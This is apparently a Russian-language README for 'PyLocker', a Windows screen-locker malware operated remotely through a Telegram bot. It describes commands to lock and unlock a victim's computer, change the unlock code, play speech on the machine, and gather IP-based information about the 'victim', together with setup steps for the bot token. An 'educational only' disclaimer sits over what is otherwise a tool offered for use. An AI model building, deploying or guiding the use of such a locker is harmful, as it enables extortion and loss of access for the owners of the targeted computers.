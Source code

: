 # PyLocker

### Простой Винлокер с управлением через телеграм бота

# ! ДАННАЯ ПРОГРАММА ПРЕДНАЗНАЧЕНА ИСКЛЮЧИТЕЛЬНО ДЛЯ ОБУЧАЮЩИХ ЦЕЛЕЙ И НЕ ДОЛЖНА БЫТЬ ИСПОЛЬЗОВАНА В ЦЕЛЯХ ПРИЧЕНИТЬ КОМУ ЛИБО ВРЕД

## Установка Библиотек

- успользуя pip requirements.txt

<br>

```python
$ pip install -r requirements.txt
```

## Token

main.py

```python
bot = telebot.TeleBot("TOKEN")
```

---

# Основные команды

## /block

#### Заблокировать компьютер

```python
locker.block_window()
```

## /unblock

#### Разблокировать компьютер

```python
locker.unblock_window()
```

## /recode Пароль

#### Сменить new_code

```python
recode.recode(new_code)
```

## /play text

#### Озвучить текст

```python
sound.say(text)
```

## /client_info

#### Узнать информацию о жертве

```python
userinfo.get_info_by_ip(userinfo.get_ip())
```

## /exit

#### Полностью закрыть Pylocker

```python
sys.exit()
```
